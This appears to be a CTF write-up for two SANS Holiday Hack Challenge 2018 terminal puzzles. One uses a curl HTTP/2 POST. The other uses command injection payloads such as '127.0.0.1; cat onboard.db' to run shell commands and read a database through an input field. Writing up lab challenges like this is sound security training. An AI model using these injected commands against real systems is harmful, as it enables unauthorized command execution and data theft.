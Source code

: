 # Terminal Challenges

## CURLing Master (HHC 2018)
[URL] https://docker.kringlecon.com/?challenge=http2&id=51d42434-81cd-4850-a5a7-02d8f3edee30
```
1) Figure out how to curl using http2 (--http2-prior-knowledge)
2) Figure out how to send a post request (-X POST)
3) Figure out how to send parameter (-d "status=on")
curl -X POST -d "status=on" --http2-prior-knowledge http://localhost:8080
```
![Curling Master](https://github.com/billburn/ctf/blob/master/H2%20Matrix/Images/curlingmaster-01.png)

## The Name Game Terminal Challenge
[URL] https://docker.kringlecon.com/?challenge=pwshmenu&id=fb959815-faef-43e8-b792-67398d577b5b
```
1) Run the program to see what options we have
2) I tried command injection and it worked (127.0.0.1; pwd)
3) I used this command injection to enumerate the files and cat the database (127.0.0.1; ls -lah)
3a) (127.0.0.1; cat onboard.db) to get Mr. Chan's first name
4) Finally, ran the runtoanswer binary (127.0.0.1; ./runtoanswer)
```
![Name Game](https://github.com/billburn/ctf/blob/master/H2%20Matrix/Images/namegame-01.png)